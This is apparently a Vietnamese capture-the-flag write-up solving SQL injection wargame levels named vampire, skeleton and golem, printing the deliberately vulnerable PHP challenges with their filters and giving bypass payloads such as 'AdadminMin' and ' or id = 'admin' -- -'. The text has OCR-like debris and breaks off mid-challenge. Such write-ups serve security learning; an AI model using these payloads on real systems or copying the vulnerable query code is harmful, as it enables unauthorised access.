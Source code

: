Filter: admin '

Cái này chỉ filter chữ admin nên ta có thể viết hoa

payload = AdMin

## VAMPIRE

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>php
```

Câu này giống câu trên khác mỗi nó sẽ lowcase chữ admin rồi thay admin = "" nên payload sẽ là `AdadminMin`

## SKELETON

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

Filter: \_ . ()

Câu này chỉ cần id=admin là được

`payload = ' or id = 'admin' -- -`

## GOLEM

```php
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
```